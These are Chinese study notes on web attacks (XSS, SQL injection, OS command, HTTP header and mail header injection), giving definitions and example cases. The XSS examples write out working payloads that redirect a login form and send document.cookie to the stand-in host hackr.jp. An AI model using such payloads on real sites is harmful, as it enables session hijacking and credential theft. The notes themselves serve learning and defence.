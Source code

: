 #### 攻击案例:
+ 获取用户登录信息

```
http://example.jp/Login?ID="><script>var tf=document.getElemenById('login');tf.action='http://hackr.jp/pwget';tf.method='get';</script><span ts="
```

+ 对用户Cookie的窃取攻击

```
http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"
xss.js文件：
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

### SQL攻击
#### 定义:
+ 指针对Web应用使用的数据库通过运行非法的SQL而产生的攻击

#### 造成影响:
+ 非法查看或篡改数据库内的数据
+ 规避认证
+ 执行和数据库服务器业务关联的程序等

#### 攻击案例:

```
http://example.com/search?q=marry'--
select * from bookTbl where author="marry" --' and flag=1;
```

### OS命令注入攻击
#### 定义:
+ 指通过Web应用，执行非法的操作系统命令达到攻击的目的

#### 攻击案例:

```
my $adr = $q -> param('mailaddress');
open(MAIL,"|/user/sbin/senmail  $adr");
print MAIL "Form:info@example.com\n";
```

### HTTP首部注入攻击
#### 定义:
+ 是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击

### 邮件首部注入攻击
#### 定义:
+ 是指Web应用中的邮件发送功能，攻击者通过向邮件首部To或Subject内任意添加非法内容发起的攻击
